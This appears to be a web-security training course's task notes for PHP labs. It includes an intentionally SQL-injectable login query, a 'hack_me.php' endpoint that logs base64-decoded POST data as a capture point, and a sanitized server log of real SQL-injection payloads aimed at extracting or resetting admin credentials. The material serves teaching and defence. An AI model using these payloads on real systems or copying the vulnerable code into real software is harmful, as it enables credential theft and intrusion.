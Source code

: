* Fix the nginx.conf so that you can run the apps

* Brute Force Detector Class Exercise
  * Image doesn't show up
  * Rewrite to make worse: distinguish between user/pwd
```
$stmt   = $pdo->query("SELECT * FROM users WHERE user='$username' AND password='$pass'");
```
* Cross Site Request Forgery (CSRF) Portal Exercise
  * Move the form into "with.php" so that you can add extra security
* OrderApp: make sure it's working (insecurely)
* Sandbox/public/hack_me.php:
  * Make sure entries are logged
```
<?php
// sandbox/public/hack_me.php
$logFile = __DIR__ . '/' date('Y-m-d') . '.log';
$flower  = __DIR__ . '/images/hacked.png';
if ($_POST['data']) {
    file_put_contents($logFile, base64_decode($_POST['data']));
}
readfile($flower);
```
* External XML Entities not on the list!
  * Even added to `App::HACK_TITLES` still doesn't work

* UFI lab
  * `ost this URL` ???
  * Looks like the `*.phtml` file has an unclosed `<a>` tag

## Actual Attacks from Customer Access Log (sanitized)
```
[Sun Jul 21 23:05:10 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/plus, referer: http://second.site.com//plus/ajax_common.php?act=hotword&query=%E9%8C%A6'%20a%3C%3End%201=2%20un%3C%3Eion%20sel%3C%3Eect%201,group_concat(0x23,0x23,0x23,admin_name,0x3a,pwd,0x3a,pwd_hash,0x23,0x23,0x23),3%20fr%3C%3Eom%20qs_admin%23%22
[Sun Jul 21 23:05:11 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/plug, referer: http://second.site.com//plug/comment/commentList.asp?id=0%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now%28%29,null,1%20%20frmasterom%20{prefix}user
[Sun Jul 21 23:05:11 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/mx_form, referer: http://second.site.com//mx_form
[Sun Jul 21 23:05:11 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/plus, referer: http://second.site.com//plus/recommend.php?aid=1
[Sun Jul 21 23:05:12 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/admin, referer: http://second.site.com//admin/Images/del.gif
[Sun Jul 21 23:05:12 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/admin, referer: http://second.site.com//admin/login/login_check.php?met_cookie_filter%5Ba%5D=a%27,admin_pass=md5(1234567)+where+id=1;+%23--
[Sun Jul 21 23:05:12 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/wap, referer: http://second.site.com//wap/?action=show&mod=admin%20where%20userid=1%20and%20(select%201%20from%20(select%20count(*),concat((select%20concat(0x23,username,0x23,password,0x23)%20from%20la_admin%20limit%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/news, referer: http://second.site.com//news/html/?410'union/**/select/**/1/**/from/**/(select/**/count(*),concat(floor(rand(0)*2),0x3a,(select/**/concat(0x23,0x23,0x23,user,0x3a,password,0x23,0x23,0x23)/**/from/**/pwn_base_admin/**/limit/**/0,1),0x3a)a/**/from/**/information_schema.tables/**/group/**/by/**/a)b/**/where'1'='1.html
[Sun Jul 21 23:05:13 2019] [error] [client 222.231.9.67] File does not exist: /var/www/vhosts/my.customer.com/httpdocs/news, referer: http://second.site.com//news/html/?410%27union/**/select/**/1/**/from/**/(select/**/count(*),concat(floor(rand(0)*2),0x3a,(select/**/concat(0x23,0x23,0x23,user,0x3a,password,0x23,0x23,0x23)/**/from/**/pwn_base_admin/**/limit/**/0,1),0x3a)a/**/from/**/information_schema.tables/**/group/**/by/**/a)b/**/where%271%27=%271.html
```